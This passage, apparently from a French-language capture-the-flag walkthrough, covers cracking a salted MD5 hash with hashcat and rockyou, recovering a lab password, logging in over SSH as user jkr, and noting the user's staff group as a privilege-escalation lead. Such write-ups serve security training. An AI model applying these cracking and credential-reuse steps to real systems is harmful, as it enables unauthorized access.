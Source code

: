 
### Cracking du hash avec Hashcat

Préparation du fichier de hash :

```bash
echo '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > hash
```

Cracking (mode 20 = md5($salt.$pass)) :

```bash
hashcat -m 20 -a 0 hash /usr/share/wordlists/rockyou.txt
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-unlock mr-2 text-green-500"></i>
        <strong>Mot de passe trouvé :</strong> <code class="bg-green-200 dark:bg-green-800 px-2 py-1 rounded font-mono">raykayjay9</code>
    </p>
</div>

## 🔑 Phase 4 — Accès SSH et user flag

### Connexion SSH

Tentative de connexion avec les credentials découverts :

```bash
ssh jkr@10.10.10.138
```

**Mot de passe :** `raykayjay9`

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Connexion SSH réussie!
    </p>
</div>

### Validation de l'accès

```bash
id
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
    </div>
</div>

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-exclamation-triangle mr-2 text-amber-500"></i>
        <strong>Observation importante :</strong> L'utilisateur appartient au groupe <code>50(staff)</code>, un groupe non standard qui mérite investigation.
    </p>
</div>
